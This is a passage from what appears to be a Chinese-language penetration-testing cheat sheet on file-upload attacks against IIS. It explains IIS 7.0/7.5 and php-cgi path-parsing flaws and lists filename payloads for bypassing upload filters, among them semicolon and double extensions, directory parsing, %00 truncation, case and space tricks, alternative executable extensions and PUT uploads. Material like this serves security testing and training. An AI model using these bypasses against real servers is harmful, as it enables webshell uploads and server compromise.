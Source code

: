     www.xxxx.com/UploadFIles/image/1.jpg/%20\0.php
    
        

**4）IIS7.5 解析漏洞**

IS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串`"/`任意文件名`.php"`”就会按照php的方式去解析（例如：webshell.jpg/x.php）

IIS7.0(Win2008R1+IIS7.0)

IIS7.5(Win2008R2+IIS7.5)

IlS的解析漏洞不像Apache那么模糊，针对IIS6.0，只要文件名不被重命名基本都能搞定。这里要注意一点，对于"任意文件名/任意文件名`.php"`这个漏洞其实是出现自php-cgi的漏洞，所以其实跟IIS自身是无关的

* * *

###### 文件扩展名绕过（asp、aspx、php、jsp）

**1）asp**

##IIS 5.0/6.0

##文件解析

    .asp;.jpg 
    
    .asp.jpg 
    
    .asp;jpg 
    
        

##目录解析

    .asp/1.jpg
    
        

##大小写绕过

    asPx
    
        

##截断

    1.asp%00.jpg
    
        

##空格绕过

    1.asp .jpg
    
    1.asp_.jpg	（_代替空格，只在windows下有效，因为windows系统自动去掉不符合规则符号后面的内容）
    
        

##黑名单绕过（替代asp）：-
IIS6.0 默认的可执行文件除了asp还包含这三种：

    asa
    
    cer
    
    cdx
    
    ashx
    
    asmx
    
        

##IIS put 上传

##asaspp

##filename换位置放到content-type 的下一行


